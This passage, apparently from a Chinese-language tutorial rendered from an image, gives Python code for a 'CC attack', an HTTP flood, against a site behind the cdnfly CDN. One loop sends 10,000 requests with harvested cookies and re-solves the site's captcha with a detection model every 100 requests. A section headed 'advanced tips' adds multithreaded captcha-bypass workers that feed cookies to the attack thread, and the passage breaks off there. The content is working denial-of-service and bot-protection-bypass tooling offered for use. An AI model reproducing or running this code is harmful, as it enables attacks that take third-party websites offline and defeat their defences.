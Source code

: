 ```python
print("[2] 开始 CC 攻击...")

session = requests.Session()
for cookie in cookies:
    session.cookies.set(cookie['name'], cookie['value'])

# 发起攻击
for i in range(10000):
    try:
        resp = session.get('http://target-with-cdnfly.com')
        print(f"  ✅ 请求 {i+1}: {resp.status_code}")
    except Exception as e:
        print(f"  ❌ 请求 {i+1}: {e}")
    
    if i % 100 == 0:
        # 每 100 次请求重新验证
        expr, result = fetch_and_detect(tab, model, model.names)
        tab.ele('#captcha-input').input(str(result))
        tab.ele('#submit-btn').click()
        time.sleep(0.5)

print("[3] 攻击完成！")
```

---

## 💡 高级技巧

### 1. 多线程绕过

```python
import threading
import queue

# Cookie 队列
cookie_queue = queue.Queue()

def bypass_worker():
    """验证码绕过线程"""
    while True:
        # 初始化浏览器
        chrom = Chromium()
        tab = chrom.new_tab()
        
        # 绕过验证码
        tab.get('http://target.com')
        expr, result = fetch_and_detect(tab, model, model.names)
        tab.ele('#input').input(str(result))
        tab.ele('#submit').click()
        
        # 获取 Cookie
        cookies = tab.cookies()
        cookie_queue.put(cookies)
        
        tab.close()

# 启动 5 个绕过线程
for _ in range(5):
    t = threading.Thread(target=bypass_worker, daemon=True)
    t.start()

# 主攻击线程使用 Cookie
while True:
```